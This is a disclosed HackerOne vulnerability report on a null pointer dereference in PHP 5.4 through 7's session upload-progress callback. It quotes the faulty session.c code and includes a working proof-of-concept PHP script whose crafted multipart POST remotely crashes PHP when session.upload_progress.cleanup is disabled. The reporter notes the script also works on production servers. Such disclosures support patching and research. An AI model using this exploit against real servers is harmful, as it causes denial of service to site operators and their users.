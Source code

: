 # Null Pointer Dereference in PHP Session Upload Progress

## Report Details
- **Report ID**: 798744
- **URL**: https://hackerone.com/reports/798744
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2020-02-18T11:07:52.157Z
- **Disclosed**: 2020-11-09T01:47:56.522Z

## Reporter
- **Username**: ryat
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: ibb

## Vulnerability Information
Affected Versions
------------
Affected is all of PHP5.4/5.5/5.6
Affected is all of PHP7

Credits
------------
This vulnerability was disclosed by Taoguang Chen.

Description
------------
session.c
```
static int php_session_rfc1867_callback(unsigned int event, void *event_data, void **extra) /* {{{ */
{
	...
	switch(event) {
		case MULTIPART_EVENT_START: {
			multipart_event_start *data = (multipart_event_start *) event_data;
			progress = ecalloc(1, sizeof(php_session_rfc1867_progress));  <=== the progress was allocated and initialized with zeros.
			progress->content_length = data->content_length;
			progress->sname_len  = strlen(PS(session_name));
			PS(rfc1867_progress) = progress;
		}
		break;
		case MULTIPART_EVENT_FILE_START: {
			...
			if (Z_ISUNDEF(progress->data)) {
                ...
				array_init(&progress->data); <=== if goto MULTIPART_EVENT_FILE_START, &progress->data will be initialized with array-type ZVAL.
				...
			}
            ...
        }
        break;
		...
		case MULTIPART_EVENT_END: {
			multipart_event_end *data = (multipart_event_end *) event_data;

			if (Z_TYPE(progress->sid) && progress->key.s) {
				if (PS(rfc1867_cleanup)) {
					php_session_rfc1867_cleanup(progress);
				} else {
					SEPARATE_ARRAY(&progress->data); <=== if skip MULTIPART_EVENT_FILE_START, the &progress->data will be uninitialized, and still zeros.
					add_assoc_bool_ex(&progress->data, "done", sizeof("done") - 1, 1);
					Z_LVAL_P(progress->post_bytes_processed) = data->post_bytes_processed;
					php_session_rfc1867_update(progress, 1);
				}
				php_rshutdown_session_globals();
			}
```

When the session.upload_progress.cleanup INI option is disabled in php.ini with files upload fails, PHP will wrongly handles the upload progress data, then will be able to lead to use of null pointer. So attackers can exploit the issue to crash PHP remotely and don't need for any special PHP script code on the web server side.

Proof of Concept Exploit
------------

The issue can be easily triggered when session.upload_progress.cleanup=0 in php.ini. For exmaple PHP built-in web server.

/www/web/index.php
```
<?php
//do whatever
?>
```

Running PHP built-in web server.
```
$php -S localhost:8000 -t /www/web/ -d session.upload_progress.cleanup=0
```

poc.php
```
<?php

$host = 'localhost';
$port = '8000';
$addr = '/index.php';

$type = 'multipart/form-data; boundary=---------------------------2020';
$data = <<<EOF
-----------------------------2020
Content-Disposition: form-data; name="PHPSESSID"

session-upload
-----------------------------2020
Content-Disposition: form-data; name="PHP_SESSION_UPLOAD_PROGRESS"

ryat
-----------------------------2020--
EOF;

$message = "POST $addr  HTTP/1.1\r\n";
$message .= "Content-Type: $type\r\n";
$message .= "Host: $host\r\n";
$message .= "Content-Length: ".strlen($data)."\r\n";
$message .= "Connection: Close\r\n\r\n";
$message .= $data;

$fp = fsockopen($host, $port);
fputs($fp, $message);

$resp = '';
while ($fp && !feof($fp)) {
    $resp .= fread($fp, 1024);
}
var_dump($resp);

?>
```

Then executing the poc.php will trigger the issue, and crash the PHP built-in web server remotely.
```
$php poc.php
```

This poc.php can also be used to attack a production web environments with session.upload_progress.cleanup=0 in php.ini :-)

## Impact

The issue can be triggered as of PHP 5.4 with the session.upload_progress.cleanup INI option is disabled, and don't need for any special PHP code on the server side. Attackers can exploit the issue to crash PHP remotely.

## Attachments
No attachments

